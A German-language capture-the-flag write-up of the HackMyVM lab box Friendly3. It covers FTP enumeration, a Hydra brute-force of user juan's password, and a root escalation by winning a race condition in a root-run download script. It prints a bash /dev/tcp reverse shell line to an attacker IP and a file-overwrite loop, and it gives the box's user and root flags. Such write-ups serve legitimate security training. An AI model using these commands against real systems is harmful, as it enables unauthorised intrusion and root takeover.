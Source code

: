 # Friendly3 - HackMyVM Writeup

![Friendly3 Icon](Friendly3.png)

## Übersicht

*   **VM:** Friendly3
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Friendly3)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 24. Juni 2025
*   **Original-Writeup:** https://alientec1908.github.io/Friendly3_HackMyVM_Easy/
*   **Autor:** Ben C.

---

**Disclaimer:**

Dieser Writeup dient ausschließlich zu Bildungszwecken und dokumentiert Techniken, die in einer kontrollierten Testumgebung (HackTheBox/HackMyVM) angewendet wurden. Die Anwendung dieser Techniken auf Systeme, für die keine ausdrückliche Genehmigung vorliegt, ist illegal und ethisch nicht vertretbar. Der Autor und der Ersteller dieses README übernehmen keine Verantwortung für jeglichen Missbrauch der hier beschriebenen Informationen.

---

## Zusammenfassung

Die Box "Friendly3" begann mit einer grundlegenden Enumeration offener Dienste. Schnell wurde ein anonymer FTP-Zugang sowie ein Webserver auf Port 80 entdeckt. Ein wichtiger Hinweis auf der Webseite verwies auf einen Benutzer namens "juan" und neu hochgeladene Dateien auf dem FTP-Server. Durch einen Brute-Force-Angriff auf den FTP-Dienst konnte das Passwort für "juan" gefunden und anschließend für den SSH-Login verwendet werden.

Als Benutzer "juan" wurde das System auf mögliche Privilegieneskalationspfade untersucht. Dabei wurde ein Skript in `/opt/` gefunden, das periodisch eine Datei von einem lokalen Webserver herunterlädt und als Root ausführt. Durch Ausnutzung einer Race Condition während dieses Prozesses konnte eine eigene bösartige Datei eingeschleust und als Root ausgeführt werden, was zu einer Root-Shell führte.

## Technische Details

*   **Betriebssystem:** Debian (basierend auf Nmap-Erkennung und SSH-Banner)
*   **Offene Ports:**
    *   `21/tcp`: FTP (vsftpd 3.0.3, anonymous login allowed)
    *   `22/tcp`: SSH (OpenSSH 9.2p1)
    *   `80/tcp`: HTTP (nginx 1.22.1)

## Enumeration

1.  **ARP-Scan:** Identifizierung der Ziel-IP (192.168.2.59).
2.  **`/etc/hosts` Eintrag:** Hinzufügen von `friendly.hmv` zur lokalen hosts-Datei.
3.  **Nmap Scan:** Identifizierung offener Ports 21 (FTP), 22 (SSH) und 80 (HTTP). Nmap zeigte, dass anonymer FTP-Zugang erlaubt war.
4.  **Web Enumeration (Port 80):**
    *   Zeigt die Standard-Nginx-Willkommensseite mit einem zusätzlichen Hinweis: "Hi, sysadmin I want you to know that I've just uploaded the new files into the FTP Server. See you, juan."
    *   Nikto Scan: Fund von fehlenden Sicherheits-Headern und einer irrelevanten `#wp-config.php#` Meldung.
5.  **FTP Enumeration (Port 21):**
    *   Anonymer FTP-Login war erfolgreich.
    *   Die Verzeichnisliste zeigte zahlreiche leere Dateien (`file1` bis `file100`, `foldX`, etc.), die alle Root gehörten.
    *   Einige Dateien in den Ordnern (`file80`, `.test.txt` in `fold10`, `yt.txt` in `fold5`, `passwd.txt` in `fold8`) enthielten scheinbar zufällige Texte oder ASCII-Kunst, sowie Hinweise auf "juan", "sysadmin" und eine Datei namens "zlcnffjbeq.gkg" mit dem Inhalt "cookie".
6.  **FTP Brute-Force:** Basierend auf dem Benutzernamen "juan" aus dem Webseiten-Hinweis wurde ein Hydra-Brute-Force-Angriff auf den FTP-Dienst durchgeführt. Das Passwort `alexis` für den Benutzer `juan` wurde gefunden.

## Initialer Zugriff (SSH als juan)

1.  **SSH Login:** Mit den gefundenen Anmeldedaten (`juan:alexis`) war ein Login via SSH erfolgreich, obwohl der ursprüngliche Hinweis nur auf FTP abzielte.
2.  **Systemerkundung als `juan`:** Im Home-Verzeichnis von `juan` wurde die Datei `user.txt` gefunden.

## Privilegieneskalation (juan -> root)

1.  **User Flag:** Der Inhalt von `/home/juan/user.txt` war `cb40b159c8086733d57280de3f97de30`.
2.  **Cronjob / Skript Entdeckung:** Bei der Erkundung des Systems wurde das Skript `/opt/check_for_install.sh` gefunden. Dieses Skript, das Root gehört und ausführbar ist, lädt eine Datei namens `9842734723948024.bash` von `http://127.0.0.1/` nach `/tmp/a.bash`, macht sie ausführbar und führt sie dann als Root aus, bevor sie gelöscht wird.
3.  **Analyse der Schwachstelle:** Das Skript `/opt/check_for_install.sh` wird offenbar regelmäßig als Root ausgeführt (vermutlich via Cron oder systemd Timer, auch wenn die Standard-Crontabs das Skript nicht direkt zeigten). Es lädt die Datei aus `/var/www/html/98424734723948024.bash` (da 127.0.0.1 auf den lokalen Nginx auf Port 80 zeigt, der `/var/www/html/` serviert) in das `/tmp`-Verzeichnis. Das `/tmp`-Verzeichnis ist global schreibbar. Juan hat als normaler Benutzer keine Schreibrechte in `/var/www/html/`. Allerdings besteht eine Race Condition zwischen dem Herunterladen der Datei nach `/tmp/a.bash` und deren Ausführung.
4.  **Ausnutzung der Race Condition:** Ein Reverse Shell Payload (`/bin/bash -i >& /dev/tcp/192.168.2.199/4444 0>&1`) wurde in einer Datei (`payload.sh`) in einem Verzeichnis platziert, in das `juan` schreiben kann (z.B. `/home/juan/`). Anschließend wurde als Benutzer `juan` eine Endlosschleife gestartet, die diese Datei ständig nach `/tmp/a.bash` kopiert (`while true; do cp /home/juan/payload.sh /tmp/a.bash; done`).
5.  **Trigger und Root Shell:** Wenn das Root-Skript `/opt/check_for_install.sh` als Cronjob läuft, lädt es die ursprüngliche Datei von `http://127.0.0.1/` nach `/tmp/a.bash`. Unmittelbar danach überschreibt die Endlosschleife von `juan` diese Datei mit dem Reverse Shell Payload. Das Root-Skript führt dann die manipulierte `/tmp/a.bash` aus, was zur Etablierung einer Root-Shell führt.
6.  **Ergebnis:** Eine Reverse Shell wurde auf dem Lauschport (4444) des Angreifers als Benutzer `root` empfangen.

## Finalisierung (Root Shell)

1.  **Root-Zugriff:** In der Root-Shell konnte auf das Root-Verzeichnis zugegriffen werden.
2.  **Root-Flag:** Die Datei `root.txt` im `/root`-Verzeichnis wurde gefunden und ihr Inhalt ausgelesen.

## Flags

*   **user.txt:** `cb40b159c8086733d57280de3f97de30` (Gefunden unter `/home/juan/user.txt`)
*   **root.txt:** `eb9748b67f25e6bd202e5fa25f534d51` (Gefunden unter `/root/root.txt`)

---
